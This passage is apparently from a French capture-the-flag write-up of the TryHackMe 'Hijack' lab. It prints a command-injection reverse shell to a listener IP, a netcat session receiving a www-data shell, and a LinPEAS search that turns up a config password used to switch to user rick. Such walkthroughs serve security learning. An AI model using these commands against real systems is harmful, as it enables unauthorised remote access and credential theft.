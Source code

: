 ```administration.php
  // Execute the query
  $stmt->execute();
  // Get the result
  $result = $stmt->get_result();
  // If a matching user is found, the user is logged in
  if ($result->num_rows == 1) {
      // Set the session variables
      $_SESSION['loggedin'] = true;
      $_SESSION['username'] = $username;
  }
  // Close the statement
  $stmt->close();
}

if ( $password_hash !== 'd65[...REDACTED...]0a5' || $username !== 'admin') {
    echo "Access denied, only the admin can access this page.";
    exit();
}
?>
```
Ou on peu spawn un revshell :
```
ssh && bash -c "bash -i >& /dev/tcp/10.11.50.195/4444 0>&1"
```
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Hijack]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.11.50.195] from (UNKNOWN) [10.10.63.56] 52578
bash: cannot set terminal process group (1292): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Hijack:/var/www/html$
```
# Post-Exploitation
Une fois un shell obtenu, on commence a cherche un moyen de faire une escalade de privilège.
Après avoir regarder dans le /home, l'historique, etc. Je télécharge Linpeas pour m'aider à trouver des pistes.


Avec linpeas, je trouve un mdp dans une config PHP:
```
╔══════════╣ Searching passwords in config PHP files
$password = "N3[...REDACTED...]Up";
```
Et c'est surement le mdp de Rick !
```
www-data@Hijack:/tmp$ su rick
Password: N3[...REDACTED...]Up
rick@Hijack:/tmp$
```
Le flag user ce trouve dans **/home/rick/user.txt**
